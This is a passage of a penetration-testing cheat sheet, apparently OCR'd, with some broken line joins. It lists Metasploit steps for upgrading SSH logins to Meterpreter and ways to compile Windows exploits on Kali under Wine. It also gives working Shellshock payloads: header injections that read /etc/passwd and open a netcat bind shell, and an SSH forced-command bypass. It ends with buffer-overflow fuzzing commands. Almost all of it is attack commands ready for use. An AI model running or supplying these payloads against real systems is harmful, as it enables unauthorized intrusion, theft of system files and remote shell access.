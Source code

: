 Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

- SSH to Meterpreter:

use auxiliary/scanner/ssh/ssh_login
use post/multi/manage/shell_to_meterpreter
https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

- Compiling Windows Exploits on Kali
    - wget -O mingw-get-setup.exehttp://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download

wine mingw-get-setup.exe
select mingw32-base

    - cd /root/.wine/drive_c/windows

wget [http://gojhonny.com/misc/mingw\_bin.zip](http://gojhonny.com/misc/mingw%5C_bin.zip) && unzip mingw_bin.zip

cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe

- Cross Compiling Exploits
    - gcc -m32 -o output32 hello.c (32 bit)

gcc -m64 -o output hello.c (64 bit)

- Shellshock
    - git clone https://github.com/nccgroup/shocker
    - ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
    - Shell Shock SSH Forced Command

Check for forced command by enabling all debug output with ssh
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'

    - cat file (view file contents)

echo -e "HEAD /cgi-bin/status HTTP/1.1\nUser-Agent: () { :;}; echo \$(</etc/passwd)\nHost: vulnerable\nConnection: close\n\n" | nc TARGET 80

    - Shell Shock run bind shell

echo -e "HEAD /cgi-bin/status HTTP/1.1\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\nHost: vulnerable\nConnection: close\n\n" | nc TARGET 80

    - Shell Shock reverse Shell

nc -l -p 443

- Buffer Overflow Exploits
    - Pass 1000 A’s as a parameter

./r00t $(python -c 'print "A" * 1000')

    - Random Pattern Create

/usr/share/metasploit-framework/tools# ruby pattern_create.rb 1000
